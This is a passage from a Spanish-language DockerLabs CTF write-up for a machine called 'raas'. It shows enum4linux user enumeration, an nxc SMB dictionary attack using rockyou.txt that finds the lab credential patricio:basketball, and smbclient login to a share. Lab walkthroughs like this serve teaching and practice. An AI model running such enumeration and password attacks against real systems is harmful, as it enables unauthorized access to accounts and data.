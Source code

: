 No puede enumerar ningun recurso compartido.

![](assets/img/dockerlabs-writeup-raas/raas1_2.png)

Utilicé enum4linux para enumerar los usuarios del sistema y luego intentar realizar un ataque de diccionario.

```terminal
/home/kali/Documents/dockerlabs/raas:-$ enum4linux 127.17.0.2
```

![](assets/img/dockerlabs-writeup-raas/raas1_3.png)

```terminal
/home/kali/Documents/dockerlabs/raas:-$ echo 'patricio\nbob\ncalamardo' > users.txt
```
```terminal
/home/kali/Documents/dockerlabs/raas:-$ sudo nxc smb 127.17.0.2 -u users.txt -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
SMB         127.17.0.2      445    KALI             [+] KALI\patricio:basketball
```

![](assets/img/dockerlabs-writeup-raas/raas1_4.png)

Una vez obtenida la credencial válida para el usuario `patricio`, accedí al recurso SMB.

```terminal
/home/kali/Documents/dockerlabs/raas:-$ smbclient //127.17.0.2/ransomware -U patricio%basketball
```

![](assets/img/dockerlabs-writeup-raas/raas1_5.png)
